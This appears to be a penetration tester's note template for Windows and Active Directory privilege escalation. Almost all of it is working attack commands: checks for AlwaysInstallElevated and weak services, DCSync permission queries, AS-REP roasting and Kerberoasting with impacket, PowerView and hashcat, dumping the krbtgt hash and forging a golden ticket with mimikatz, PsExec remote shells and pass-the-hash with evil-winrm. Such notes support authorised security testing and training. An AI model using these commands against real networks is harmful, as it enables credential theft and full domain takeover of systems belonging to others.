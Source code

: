 <% tp.file.rename("3_privEsc_Windows")%>
> Completely done with the looting checklist? Then you can try this:

##### Registry misconfigurations
Can .msi's run privileged without UAC?
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
(-> `msiexec /quiet /qn /i c:\path\to\file.msi`)

Always install elevated
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
	

##### LOLBAS
https://lolbas-project.github.io/#

##### Missing binaries in planned tasks?
```powershell
autorunsc64.exe -a t | more
```
(Part of SysInternals - Look for "File Not Found". Also try with `-a s`)
	

##### Modifiable Services
```powershell
accesschk.exe -accepteula -wuvc "Everyone" *
```
(Sysinternals. Also try with  `"Users"`)
	

##### Map Trusts
```powershell
Get-NetForestDomain | Get-NetDomainTrust
```
(PowerView.ps1)
	

Check DCSync Permission
```powershell
Get-ObjectAcl -DistinguishedName "dc=XXX,dc=XXX,dc=XXX" -ResolveGUIDs | ?{($_.IdentityReference -match "XXXUSERNAMEXXX") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
(PowerView.ps1)

##### ASREPRoasting
Find users that don't require preauth
1. Bruteforce user names or
   ```powershell
   Get-DomainUser -PreauthNotRequired -Verbose | ft
   ```
   (PowerView_dev.ps1)
2. 
   ```bash
   python3 ~/tools/impacket/build/scripts-3.11/GetNPUsers.py -dc-host $hip -no-pass -usersfile users.txt $dnsserver -o asrep.hashes
   ```
3.  Use hashcat with -m 18200

##### Request SPN Tickets
```powershell
Get-DomainUser -Identity $user | Get-DomainSPNTicket | select -ExpandProperty Hash
```
(PowerView.ps1)
	

##### Golden Ticket with mimikatz
```
privilege::debug
```

Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```

Open a CMD with elevated privileges to all machines
```
misc::cmd
```

Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```
	

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
	



# Findings
